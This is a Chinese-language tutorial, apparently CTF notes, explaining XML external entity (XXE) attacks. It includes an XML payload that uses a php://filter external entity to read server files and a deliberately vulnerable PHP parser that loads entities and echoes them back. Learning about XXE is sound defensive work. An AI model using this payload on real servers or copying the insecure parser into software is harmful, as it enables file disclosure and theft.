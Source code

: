 ​					

## 													XML实体类攻击(XXE)

我们都知道XML脚本用于在web端与端间存储与传输数据,  并且其对DTD的引用分为外部实体类与内部实体类等.

一般地，对于XML脚本，我们有如下典型元素:

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE root [
  <!ELEMENT root (user, password,email)>
<!ELEMENT user (#PCDATA)>
<!ELEMENT password (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../index.php">
<!ENTITY e "???">
]>
<root>
  <!--external entity-->
  <user>&xxe;</user>
  <password>mypass&quot;</password>
  <!--enternal entity-->
  <email>&e;</email>
</root>
<!--payload.xml-->
```

由DOM的知识可知，我们使用PHP或者JAVASCIRPT脚本去将XML脚本解析为树形DOM, 其叶子节点即为元素中的值，并在浏览器或者终端回显出某些特定的值。

以上述脚本为例, 假如我们需要回显标签为email的元素, 我们可以在浏览器的控制台写出如下代码:

```javascript
if (window.XMLHttpRequest) {
  // code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp = new XMLHttpRequest();
} else {
  // code for IE6, IE5
  xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp.open("GET", "payload.xml", false);
xmlhttp.send();
xmlDoc = xmlhttp.responseXML;

//获取email 标签下的内部实体类
xmlDoc.getElementsByTagName("email")[0].childNodes[0].nodeValue;
// parse.js
```

其中, 以&xxe为例的外部实体类结合php伪协议, 我们可以泄露一些服务器内的文件.

但是我们惊喜地发现, javascript是无法解析php的外部实体类的.

所以在考虑文件泄露时, 我们只能利用后端代码, 如php, java等.

考虑服务器端代码:

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

/*将xml格式的payload当作通过POST协议, 作为字符串传给xmlfile*/
$dom = new DOMDocument();
/*将xml字符串解析为数组*/
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
/*查看外部实体类, 泄露flag*/
var_dump($creds);
?>
```

其中, file_get_contents(“php://input”)语句用于将客户端POST参数直接打成字符串并回显.

很显然, 这是一个可以解析我们注入的XML并回显特定信息的代码段.

我们构造payload，在DTD特定的位置插入php://road/flat.txt, 查看回显即可.